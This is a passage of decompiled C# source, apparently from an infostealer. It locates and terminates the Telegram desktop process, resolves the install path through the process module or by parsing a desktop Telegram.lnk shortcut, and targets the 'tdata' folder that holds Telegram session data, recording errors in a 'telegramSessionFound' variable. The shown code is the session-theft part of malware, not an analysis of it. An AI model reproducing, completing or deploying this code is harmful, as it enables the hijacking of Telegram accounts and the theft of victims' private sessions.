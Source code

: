 ```csharp
				}
			}
			catch (Exception ex)
			{
				Variables.telegramSessionFound = "ERR: " + ex.Message;
			}
		}

		// Token: 0x0600000E RID: 14 RVA: 0x00002A58 File Offset: 0x00000C58
		private static void TelegramProcessKill(ref string pathToTelegram)
		{
			Process[] processesByName = Process.GetProcessesByName("Telegram");
			bool flag = processesByName.Length != 0;
			if (flag)
			{
				bool flag2 = pathToTelegram == "Not Found!";
				if (flag2)
				{
					pathToTelegram = processesByName[0].MainModule.FileName;
					string text = pathToTelegram.Remove(pathToTelegram.Length - 13, 13);
					pathToTelegram = text + "\\tdata";
				}
				processesByName[0].Kill();
				processesByName[0].WaitForExit();
			}
		}

		// Token: 0x0600000F RID: 15 RVA: 0x00002AD0 File Offset: 0x00000CD0
		private static string GetPathByLnk()
		{
			string text2;
			try
			{
				string text = Variables.desktop + "\\Telegram.lnk";
				FileInfo fileInfo = new FileInfo(text);
				using (FileStream fileStream = File.Open(fileInfo.FullName, FileMode.Open, FileAccess.Read))
				{
					using (BinaryReader binaryReader = new BinaryReader(fileStream))
					{
						fileStream.Seek(20L, SeekOrigin.Begin);
						uint num = binaryReader.ReadUInt32();
						bool flag = (num & 1U) == 1U;
						if (flag)
						{
							fileStream.Seek(76L, SeekOrigin.Begin);
							ushort num2 = binaryReader.ReadUInt16();
							fileStream.Seek((long)((ulong)num2), SeekOrigin.Current);
						}
						long position = fileStream.Position;
						uint num3 = binaryReader.ReadUInt32();
						fileStream.Seek(12L, SeekOrigin.Current);
						uint num4 = binaryReader.ReadUInt32();
						fileStream.Seek(position + (long)((ulong)num4), SeekOrigin.Begin);
						text2 = new string(binaryReader.ReadChars((int)(position + (long)((ulong)num3) - fileStream.Position)));
					}
				}
			}
			catch
			{
				foreach (string text3 in Directory.GetDirectories(Variables.desktop))
				{
```